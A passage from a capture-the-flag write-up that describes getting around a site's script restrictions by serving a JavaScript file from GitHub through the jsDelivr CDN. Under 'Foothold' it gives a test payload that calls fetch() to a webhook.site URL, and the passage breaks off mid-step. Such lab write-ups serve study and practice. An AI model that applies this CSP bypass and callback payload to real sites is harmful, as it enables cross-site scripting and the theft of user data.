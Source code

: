 ![5-cdn.png](./static/5-cdn.png)

When I read the examples in the main page i get that I can load any file from sources like npm , github or wordpress. It seems that it links them to create the redirections


At this point i try to find a `jsonp` endpoint that allow me to redirects the requests to my webhook, or using the `jsdelivr` to import angular library and try to execute a requests. But all was more easy than i expected, but i couldn't figuret out.

But, in the after event I could try another things after read the [fanky's writeup](https://blog.fanky.me/ctf_writeups/hacktheboo_cursed_secret_party).

## Foothold

First create a file in one of your github repostiories with the following payload, I called `xss_test1.js`

```js
// xss_test1.js
fetch('https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910')
```

After that go to [Migrating from GitHub to jsDelivr](https://www.jsdelivr.com/github) paste  the github file link :